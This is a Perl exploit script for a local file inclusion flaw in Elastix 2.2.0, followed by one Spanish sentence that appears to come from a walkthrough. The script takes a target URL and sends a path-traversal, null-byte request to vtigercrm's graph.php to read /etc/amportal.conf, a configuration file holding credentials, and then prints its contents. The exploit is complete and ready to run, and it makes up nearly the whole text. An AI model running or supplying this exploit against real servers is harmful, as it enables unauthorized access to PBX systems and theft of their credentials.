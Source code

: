 ```ruby
# romanc-_-eyes ;)
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {

print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";

}
else {
print "\n[-] not successful\n";
        }

```
 vamos a usar el exploit que como vemos aplica un Path Traversal `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`